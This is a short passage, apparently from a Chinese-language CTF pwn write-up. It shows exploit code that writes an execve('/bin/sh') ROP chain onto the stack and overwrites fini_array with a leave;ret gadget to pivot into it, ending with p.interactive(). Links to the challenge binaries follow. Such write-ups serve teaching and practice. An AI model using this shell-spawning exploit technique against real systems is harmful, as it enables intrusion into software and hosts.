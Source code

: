 ```plain


#duan()
#布置栈上的内容为
#syscall('/bin/sh\x00',0,0)
write(esp,p64(rax))
write(esp+8,p64(0x3b)) 
write(esp+16,p64(rdi)) 
write(esp+24,p64(bin_sh))
write(esp+32,p64(rsi))
write(esp+40,p64(0))
write(esp+48,p64(rdx))
write(esp+56,p64(0))
write(esp+64,p64(syscall))

#结束程序循环，进入 ROP
write(fini_array,p64(leave_ret)+p64(ret))
'''
'''
p.interactive()
```

![](assets/1706959474-d03a5e4b40ff92d0dd5ebf3823a3802c.gif)xor.zip (0.91 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240125153445-3607447e-bb54-1.zip)

![](assets/1706959474-d03a5e4b40ff92d0dd5ebf3823a3802c.gif)Memory Monster II.zip (0.308 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240125153953-edeb4bd0-bb54-1.zip)
